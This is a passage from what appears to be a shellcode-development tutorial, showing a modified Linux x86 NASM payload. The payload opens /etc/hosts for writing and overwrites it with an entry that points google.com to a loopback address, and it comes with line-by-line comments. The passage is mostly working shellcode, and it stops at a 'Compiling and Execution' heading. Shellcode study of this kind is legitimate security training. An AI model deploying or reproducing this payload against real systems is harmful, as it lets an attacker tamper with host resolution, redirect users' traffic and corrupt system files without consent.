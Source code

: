 Original code:
```nasm
  push 0x6
  pop eax
  int 0x80        ;syscall to close the file
```

<p style="text-align: justify;">After analysis and tests, despite the fact that this is not very elegant behavior, you can completely skip sys_close() system call, because the file is already overwritten (goal achieved). It remains therefore only to close the program - sys_exit().
</p>
------------------------------------------------------------------------------------------------
### sys_exit()

<p style="text-align: justify;">These lines of code remained unchanged.</p>
------------------------------------------------------------------------------------------------
### Full code after changes

```nasm
global _start

section .text

_start:
  push ecx                ; Pushes 0
  pop eax                 ; Moving 0 to EAX 
  add al, 5               ; Moving 5 to EAX (for sys_open())
  push ecx                ; Pushing 0 on the stack (string terminator for next lines of code)
  jmp short _second       ; JMP-CALL-POP

_hosts:
  pop ebx                 ; Moving "/etc/hosts" string to EBX
  mov cx, 0x401           ; Setting permissions - /etc/hosts can be modified only by user like root
  int 0x80                ; Syscall execution
  
  mov ebx, eax            ; Moving syscall return value (7) to EBX
  push 0x4                ; Pushing 4 on the stack
  pop eax                 ; Moving value 4 to EAX
  jmp short _load_data    ; JMP-CALL-POP #2

_write:
  pop ecx                 ; Moving "127.1.1.1 google.com" to ECX
  mov dl, len             ; Moving length of above string to EDX
  int 0x80                ; Syscall execution

  push 1                  ; Pushes 1 on stack
  pop eax                 ; Moving 1 to EAX
  int 0x80                ; Syscall execution

_load_data:
  call _write             ; JMP to _write section
  google db "127.1.1.1 google.com"
  len equ $-google

_second:
  call _hosts             ; JMP to _hosts section
  host db "/etc/hosts"
```
------------------------------------------------------------------------------------------------
### Compiling and Execution
